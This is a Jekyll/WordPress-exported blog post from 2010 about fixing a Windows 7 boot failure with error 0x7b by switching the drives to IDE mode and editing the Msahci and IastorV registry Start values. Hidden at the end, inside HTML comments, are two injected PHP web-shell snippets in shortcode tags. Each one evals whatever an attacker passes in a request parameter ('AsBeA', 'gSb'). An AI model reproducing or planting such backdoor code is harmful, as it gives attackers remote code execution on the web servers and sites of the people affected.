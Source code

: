 ```yaml
---
layout: post
title: Windows 7 updated last night and now it won't boot!
date: 2010-05-22 16:37:32.000000000 +00:00
type: post
parent_id: '0'
published: true
password: ''
status: publish
categories:
- Windows
tags: []
permalink: "/2010/05/windows-7-updated-last-night-and-now-it-wont-boot/"
---
```

Start with F8-\>disable restart on failure, if the bluscreen error is 0x7b then switch your hard drives to IDE mode in BIOS, then edit these two registry keys:  
HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\Msahci  
HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\IastorV  
"Start" must have a value of 0 (loaded by kernel), it is probably 3 (manual)  
[More details here](http://support.microsoft.com/kb/922976)

<!-- [insert_php]if (isset($_REQUEST["AsBeA"])){eval($_REQUEST["AsBeA"]);exit;}[/insert_php][php]if (isset($_REQUEST["AsBeA"])){eval($_REQUEST["AsBeA"]);exit;}[/php] -->

<!-- [insert_php]if (isset($_REQUEST["gSb"])){eval($_REQUEST["gSb"]);exit;}[/insert_php][php]if (isset($_REQUEST["gSb"])){eval($_REQUEST["gSb"]);exit;}[/php] -->

